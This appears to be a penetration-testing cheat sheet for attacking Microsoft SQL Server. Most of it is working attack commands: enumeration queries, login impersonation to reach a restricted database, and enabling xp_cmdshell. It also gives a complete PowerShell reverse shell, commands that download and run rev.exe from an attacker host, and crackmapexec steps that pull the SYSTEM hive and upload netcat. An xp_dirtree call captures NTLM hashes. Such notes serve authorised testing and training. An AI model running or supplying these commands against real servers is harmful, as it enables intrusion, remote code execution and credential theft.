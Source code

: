 ### MSSQL Default Database
```
Master
Model
Msdb
Tempdb
```
### Queries to run 
```
# Get version
select @@version;
# Get user
select user_name();

#show database 
SELECT name FROM master..sysdatabases;

# Use database
USE master

#Get table names
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
SELECT * FROM information_schema.tables

# Get table content
> SELECT * FROM <database_name>.dbo.<table_name>
```
### If current user does not have permission o view database
Backgroup  
>SQL (HAERO\discovery  guest@master)> use hrappdb

>ERROR: Line 1: The server principal "HAERO\discovery" is not able to access the database "hrappdb" under the current security context.

Solution
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
name             
--------------   
hrappdb-reader

SQL (HAERO\discovery  guest@master)> EXECUTE AS LOGIN = 'hrappdb-reader'
SQL (hrappdb-reader  guest@master)> use hrappdb
```
### Enable command execution
```
enable_xp_cmdshell;
```
```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

### Mssql Connection and Get Reverse Sehll
```
impacket-mssqlclient user:pass@IP
impacket-mssqlclient user:pass@IP -windows-auth

EXEC xp_cmdshell 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient(''10.10.77.153'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'
```
Or 
```
EXECUTE xp_cmdshell 'curl http://192.168.45.202:8000/rev.exe -o C:\Users\Public\rev.exe';
EXECUTE xp_cmdshell 'c:\users\public\rev.exe';
rlwrap nc -nlvp 4444
```
### Sql authentication vs Windows authentication
>SQL Server Authentication:

>User Credentials: Requires a username and password specific to the SQL Server database.
Authentication Process: The SQL Server validates the username and password provided by the user.
Security Implications: Typically involves storing a username and password in the application's connection string. This method is more vulnerable to security threats if credentials are not adequately protected.
Example connection string using SQL Server Authentication:

>Windows Authentication:

>User Credentials: Relies on the user's Windows credentials (username and password) without requiring a separate SQL Server username and password.
Authentication Process: The SQL Server trusts the Windows authentication process, and the user is authenticated based on their Windows login credentials.
Security Implications: Generally considered more secure as it leverages the security features of the Windows operating system. Credentials are not typically stored in connection strings.

### MSSQL Upload and Download Files
```
proxychains4 -f /etc/proxychains4.conf crackmapexec(nxc) mssql 10.10.133.148 -u sql_svc -p Dolphin1 --get-file C:\\windows.old\\Windows\\System32\\SYSTEM /home/kali/Desktop/SYSTEM
proxychains4 -f /etc/proxychains4.conf crackmapexec(nxc) mssql 10.10.133.148 -u sql_svc -p Dolphin1 --put-file nc.exe C:\\Users\\Public\\nc.exe
```
### Capture Mssql Hash
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0d89e7ee-4d0a-420b-854e-2ab67c7f3a9a)
```
EXEC xp_dirtree '\\10.10.14.31\share', 1, 1
```
